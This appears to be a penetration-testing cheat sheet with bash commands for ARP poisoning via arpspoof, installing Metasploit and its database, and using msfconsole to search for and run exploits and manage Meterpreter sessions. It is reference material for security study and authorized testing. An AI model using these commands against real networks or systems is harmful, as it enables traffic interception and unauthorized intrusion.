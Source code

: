 ```bash
# ARP POISONING - arpspoof

## Forward IP packets
echo 1 > /proc/sys/net/ipv4/ip_forward
# arpspoof -i <interface> -t <target> -r <host>
arpspoof -i eth1 -t <TARGET_IP> -r <HOST_IP>
```

## Metasploit

```bash
# MSF Install
sudo apt update && sudo apt install metasploit-framework -y
sudo systemctl enable postgresql
sudo systemctl restart postgresql
sudo msfdb init

ls /usr/share/metasploit-framework
ls ~/.msf4/modules
```

```bash
service postgresql start && msfconsole -q
```

```bash
# msfconsole
db_status
help
version

show -h
show all
show exploits                     #Aonther way to display exploits
show payloads                     #display payloads

search <STRING>
search cve:2017 type:exploit platform:windows
use <MODULE_NAME>
show options                      #Check options and required value
exploit                           #Execution of exploitation
set <OPTION>
run
execute # same as run
exploit # same as run and execute

sessions
# Switch between sessions Ids with
sessions 1
# Rename sessions
sessions -n xoda -i 1
# Run a Meterpreter Command on the session given with `-i`
sessions -C sysinfo -i 1
# Terminate a specific session
sessions -k 1
# Terminate all sessions
sessions -K
# Upgrade a shell session to a Meterpreter session
sessions -u 1

connect

## Workspaces - db_status must be connected
workspace
workspace -a <NEW_WORSKSPACE>
```
